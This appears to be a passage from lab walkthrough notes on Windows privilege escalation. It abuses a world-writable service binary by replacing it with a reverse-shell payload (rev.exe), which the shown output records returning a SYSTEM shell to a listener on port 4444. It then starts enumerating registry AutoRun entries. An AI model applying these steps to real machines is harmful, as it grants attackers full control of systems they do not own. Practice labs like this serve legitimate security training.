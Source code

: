 - check service permission.

```bash
C:\PrivEsc>accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
	FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
	FILE_ALL_ACCESS
  RW BUILTIN\Administrators
	FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
	FILE_ALL_ACCESS
  RW BUILTIN\Users
	FILE_ALL_ACCESS
```

binary service its writable by everyone ` RW Everyone`

- replace service binary with payload.

```bash
copy C:\PrivEsc\rev.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

- run service

```bash
net start filepermsvc
```

```bash
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.27.238 49863 received!
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```



**`Registry - AutoRuns`**

- check auto run registry

```bash
C:\PrivEsc>reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run



reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"




```
